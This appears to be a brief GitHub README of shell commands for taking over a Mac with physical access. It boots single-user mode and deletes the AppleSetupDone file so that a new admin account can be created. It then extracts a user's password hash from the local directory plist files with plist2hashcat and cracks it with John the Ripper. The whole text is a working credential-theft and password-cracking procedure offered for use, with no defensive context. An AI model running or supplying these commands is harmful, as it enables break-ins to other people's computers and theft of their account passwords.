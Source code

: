 # how to view
view in raw to get commands right cuz github doesn't give a crap about what goes on what line :)
# new admin user in single user mode
mount -uw /
rm /var/db/AppleSetupDone
*reboot*
# execute in terminal with root access
cd path/to/hashcat
sudo ./plist2hashcat.py /var/db/dslocal/nodes/default/users/*USER*.plist
save output to sha-512.txt in /path/to/JTR/run
cd path/to/JTR/run
./john --show --format=PBKDF2-HMAC-SHA512 sha-512.txt
